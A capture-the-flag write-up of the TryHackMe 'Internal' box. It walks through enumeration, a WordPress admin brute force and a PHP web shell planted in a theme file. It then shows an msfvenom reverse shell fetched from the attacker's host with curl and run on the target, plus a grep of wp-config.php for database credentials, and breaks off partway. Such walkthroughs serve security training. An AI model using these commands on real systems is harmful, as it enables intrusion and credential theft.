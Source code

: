 +++
title = 'Internal Write Up'
date = 2024-02-14T08:50:55+02:00
draft = false
tags = ["tryhackme", "security", "pentest", "oscp"]
+++

Box: Internal/
Platform: Try Hack Me/
Grade: Medium/

## Service Enumeration

````
sudo nmap -sC -sV 10.10.52.194

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.57 seconds
````

### SSH

OpenSSH 7.6p1. 

### Web

Apache httpd 2.4.29.

Only default page is shown. The logical next step is to try to find the directory structure of the server.

```
gobuster dir -u http://10.10.52.194 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 50 --no-error

http://10.10.52.194/phpmyadmin/index.php
http://10.10.52.194/blog
http://10.10.52.194/wordpress
```

It seems the site is running Worpress. Trying to log to phpmyadmin with default credentials doesn't work. Browsing to /wordpress shows that the page tries to reach out to its own domain name internal.thm. Adding that to /etc/hosts.

### Wordpress

Running WPScan to reveal potential vulnerabilities.

````
sudo wpscan -e ap -t 500 --url http://internal.thm/blog
````

WordPress 5.4.2 and no plugins installed. Which is a bummer because plugins are a great point of entry. 

Trying the WP admin panel at http://internal.thm/blog/wp-login.php to enumerate valid usernames. Admin is a valid user according to error message.

At this point I couldn't find an obvious vulnerability for WP so I resorted to trying to brute force the admin login. I'm not a fan of brute forcing anything so this should be used as a last resort if nothing else offers an opportunity. 

````
sudo wpscan --password-attack xmlrpc -t 20 -U admin -P /usr/share/wordlists/rockyou.txt --url http://internal.thm/wordpress
````

Much to my surprise brute force attempt was succesful and I found the admin password. The next step is easy. Let's attempt to exploit WP Themes Editor. 

## Initial Access

So logged in as admin browsing to Theme Editor.
Edit Twenty Seventeen: 404 Template

```
# Adding a simple web shell after the initial comments.
system($_GET[cmd]);

# Testing the shell
curl http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php?cmd=id
```

````
# Enumerating OS users
curl http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php?cmd=cat+/etc/passwd

aubreanna:x:1000:1000:aubreanna:/home/aubreanna:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
````

So it seems that the system has one standard user and one service account user which suggest MySQL runs on the box. 

Webshell works but the next step is to upgrade the shell. 

## Shell Upgrade

````
# Create shell and listener
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.11.67.91 LPORT=4444 -f elf > shell.elf
rlwrap nc -nvlp 4444

# Enable Python web server
python -m http.server 8000

# Execute the shell
curl http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php?cmd=curl+http://10.11.67.91:8000/shell.elf+-o+/tmp/shell.elf 
curl http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php?cmd=chmod+700+/tmp/shell.elf   
curl http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php?cmd=/tmp/shell.elf 

# Upgrade to interactive
python -c 'import pty; pty.spawn("/bin/bash")'
````

## Operating System Enumeration

The config file wp-config.php reveals a hardcoded MySQL username and password.

```
cat wp-config.php | grep 'DB_USER\|DB_PASSWORD'

<ss$ cat wp-config.php | grep 'DB_USER\|DB_PASSWORD'
define( 'DB_USER', 'wordpress' );
```

## MySQL Enumeration

````
show databases;
use wordpress;
show tables;
select * from wp_users;
````

Only admin user was found. It doesn't give anything new as I already have WP admin account. 




CONTINUES...